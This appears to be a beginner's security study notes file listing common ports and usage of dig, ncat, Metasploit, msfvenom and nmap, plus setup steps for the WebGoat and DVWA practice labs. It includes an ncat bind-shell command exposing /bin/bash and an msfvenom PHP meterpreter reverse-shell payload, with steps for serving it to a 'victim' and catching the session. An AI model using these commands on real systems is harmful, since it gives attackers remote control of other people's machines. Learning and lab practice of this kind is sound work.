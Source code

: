 # Hacking Tools
---
******************** Ports information **************************
There are 65535 port numbers (2^16).

20 and 21: FTP (File Transfer Protocol --> Transfer files between client and server)
22: SSH (Secure Shell --> Tunneling protocol for secure network connection)
23: Telnet
25: SMTP (Simple Mail Transfer Protocol --> Used for email)
53: DNS (Domain Name System --> Domain names to ip adresses)
67 and 68: DHCP (Dynamic Host Configuration Protocol --> Assigns IP adresses to devices dynamically)
80: HTTP (Hypertext Transfer Protocol --> Makes world wide web possible)
110: POP3 (Post Office Protocol --> For receiving emails)
123: NTP (Network Time Protocol --> Clocks synchronization)
143: IMAP (Internet Message Access Protocol --> For receiving emails)
179: BGP (Boder Gateway Protocol --> Used for establish connections between large networks)
443: HTTPS (Hypertext Transfer Protocol Secure --> Secure and encrypted version of http)
500: ISAKMP (Internet Security Association and Key Management Protocol --> Is part of the process of setting up secure IPsec connections)
3389: RDP (Remote Desktop Protocol --> Allows users to connect their computers from another device)

More information at:  (IANA --> Internet Assigned Numbers Authority) https://www.iana.org/assignments/service-names-port-numbers/service-names-port-numbers.xhtml
*************************************************************

## DIG

Tool for interrogating DNS name servers.

Get a DNS response (information about a domain):

```Shell
dig ns<number of server>.<domain>
```

Get simplified response (only ip address):

```Shell
dig +short ns.<domain>

// Get one of the google´s ip adresses
dig +short ns.google.com
```

Get belonging domain of an ip:

```Shell
dig +short -x <IP adress>
```


## NCAT

Tool for reading and writing data across the network.

Use ncat as a server running in port 8080:

```Shell
ncat -l <ip> <port>
```

Example:

```Shell
ncat -l 127.0.0.1 8080
```

Establish a connection with the server:

```Shell
ncat 127.0.0.1 8080
```

Running a command on the client side, will run the command on the host machine a print the output on the client:

```Shell
ncat -l --exec "/bin/bash" 127.0.0.1 8080
```


------------------------ARMITAGE (Graphical user interface for Metasploit)------------------------

## Metasploit

*(S): For shell commands

// Metasploit modules are: Exploits, payloads, auxiliary, encoders, nops, posts, evasion.
// Modules are located in: /usr/share/metasploit-framework/modules
// Try to run the database service to initialize the msf faster 'service postgresql start'
// Dictionaries for brute-force attacks available at /usr/share/metasploit-framework/data/wordlists

msfdb (Manage metasploit framework database) (S)
msfconsole (Intiallize the metasploit framework) (S)

banner (Display a banner)
db_status (Check the metasploit frmaework database status)
use <module> (Use a certain metasploit module)
show <options> (Show information about a moudule)
set <option> <value> (Set options, use 'show options' to see them)
search <field> <parameter> (Make queries about modules. e.g. type:payload)
back (Return to metasploit framework main command line interface)
run (Running an auxiliary)
exploit (Running an exploit)

// msfvenom is a payload generator
// For instance, we can make a reverse shell  by using the payload 'php/meterpreter/reverse_tcp'

msfvenom -p <payload> <option>=<value> <other optional flags> > <file name to contain the payload>
msfvenom -p php/meterpreter/reverse_tcp LHOST=<Our ip address> LPORT=4444 -e php/base64 -f raw > shell.php (Setting the payload with our machine listening. '-e' flag for setting an appropiate encoder, '-f' flag for setting the file format as a raw file, also we are saving the payload into 'shell.php' file)

// LPORT is 4444 by default (try 'msfvenom -p <payload> --list-options' for looking for options)
// Inside the file we'll find a single line of base64 encoded payload, so we wrap that line like that:
<?php
<encoded payload>
?>
// Then the machine will read it as php code

// Now we can start an apache2 web server so the victim download the payload from there. Copy the file into '/var/www/html', start the server and enter your ip adress into the browser.
// Go to msfconsole and use 'exploit/multi/handler' then set LHOST to your address and run the exploit for start listening. Once the victim machine opens the file a session will be created.



## NMAP

// Use -sS for a stealth scan, -sT flag is louder. Use -sV for showing services version

nmap <flags> <IP adress> (See open ports)


---------------------------------------------------------------------------------------------------

// WebGoat is a deliberately insecure web application maintained by OWASP designed to teach web application security lessons. 
docker run -it -p 127.0.0.1:80:8888 -p 127.0.0.1:8080:8080 -p 127.0.0.1:9090:9090 -e TZ=Europe/Amsterdam webgoat/goatandwolf:v8.2.2 (Starting WebGoat)
// Web application located at: http://127.0.0.1:8080/WebGoat/login


// Now we are going to set up the DVWA web application
// We put DVWA file into /var/www/html
// Accesing MariaDB
mysql -u root -p
// mysql commands ends with semicolon
CREATE DATABASE dvwa; (Creating a database called dvwa)
GRANT all ON dvwa.* to dvwa@localhost identified by 'password'; (Granting permissions to the database)
flush privileges;
// Exit the MariaDB and rename the file into /var/www/html/DVWA/config
mv config.inc.php.dist config.inc.php
// Rewrite the file so set the user and the password to the ones setted in the database created
// Rewrite /etc/php/7.4/apache2/php.ini: allow_url_include = On
// Restart php service
// Enter localhost and create database
// Log in with admin123:password

--------------------------------------ZED ATTACK PROXY---------------------------------------------

// Install zaproxy
// For quick scan use: http://www.webscanttest.com

---------------------------------------------------------------------------------------------------